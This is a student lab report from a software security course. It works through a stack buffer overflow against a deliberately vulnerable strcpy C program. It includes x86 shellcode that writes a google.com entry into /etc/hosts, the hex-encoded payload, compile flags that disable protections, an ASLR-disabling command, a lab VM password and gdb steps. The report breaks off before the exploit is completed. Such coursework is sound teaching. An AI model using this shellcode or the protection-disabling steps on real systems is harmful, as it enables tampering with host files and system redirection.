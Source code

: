 # Lab #1,22110034, Nguyen Gia Huy, INSE331280E_02FIE

# Task 1: Software buffer overflow attack

Given a vulnerable C program

```
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[])
{
    char buffer[16];
    strcpy(buffer,argv[1]);
    return 0;
}
```

and a shellcode in asm. This shellcode add a new entry in hosts file

```
global _start

section .text

_start:
    xor ecx, ecx
    mul ecx
    mov al, 0x5     
    push ecx
    push 0x7374736f     ;/etc///hosts
    push 0x682f2f2f
    push 0x6374652f
    mov ebx, esp
    mov cx, 0x401       ;permmisions
    int 0x80            ;syscall to open file

    xchg eax, ebx
    push 0x4
    pop eax
    jmp short _load_data    ;jmp-call-pop technique to load the map

_write:
    pop ecx
    push 20             ;length of the string, dont forget to modify if changes the map
    pop edx
    int 0x80            ;syscall to write in the file

    push 0x6
    pop eax
    int 0x80            ;syscall to close the file

    push 0x1
    pop eax
    int 0x80            ;syscall to exit

_load_data:
    call _write
    google db "127.1.1.1 google.com"
```

**Question 1**:

- Compile asm program and C program to executable code.
- Conduct the attack so that when C executable code runs, shellcode will be triggered and a new entry is added to the /etc/hosts file on your linux.  You are free to choose Code Injection or Environment Variable approach to do.
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.

**Anwser 1:**

## 1. Compile asm program and C program to executable code:

*Compile the C program with `gcc`:*

```bash
gcc vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
```

*Assemble the shellcode:*

```bash
nasm -f elf32 sh.asm -o sh.o
```

*Link the object file to create an executable:*

```bash
ld -m elf_i386 -o sh sh.o
```

Generate the Hex String:

```
for i in $(objdump -d sh | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
```

Result:

```bash
\x31\xc9\xb0\x05\x51\x68\x6f\x73\x74\x73\x68\x2f\x2f\x2f\x68\x68\x2f\x65\x74\x63\x89\xe3\x66\xb9\x01\x04\xcd\x80\x93\x6a\x04\x58\xeb\x10\x59\x6a\x14\x5a\xcd\x80\x6a\x06\x58\xcd\x80\x6a\x01\x58\xcd\x80\xe8\xeb\xff\xff\xff\x31\x32\x37\x2e\x31\x2e\x31\x2e\x31\x20\x67\x6f\x6f\x67\x6c\x65\x2e\x63\x6f\x6d
```

Estimate Buffer Size:

![image-20241022100650845](C:\Users\User\AppData\Roaming\Typora\typora-user-images\image-20241022100650845.png)

## 2. Prepare for the attack

Turn off OS's address space layout randomization:

```bash
sudo sysctl -w kernel.randomize_va_space=0
```

> The password for seed: dees

Result:

![image-20241022111228390](C:\Users\User\AppData\Roaming\Typora\typora-user-images\image-20241022111228390.png)

Creat link to zsh:

```bash
sudo ln -sf /bin/zsh /bin/sh
```

## 3. Conducting the attack

Load `vuln.out` in `gdb`:

```bash
gdb -q vuln.out
```

Disassemble `main` function:

```bash
gdb-peda$ disas main
```

Result:

![image-20241022110847287](C:\Users\User\AppData\Roaming\Typora\typora-user-images\image-20241022110847287.png)

From the above result, we see that the address after the `strcpy` instruction is `0x08048423`. So we put break point at this address.

```bash
b *0x08048423
```

![image-20241022112205737](C:\Users\User\AppData\Roaming\Typora\typora-user-images\image-20241022112205737.png)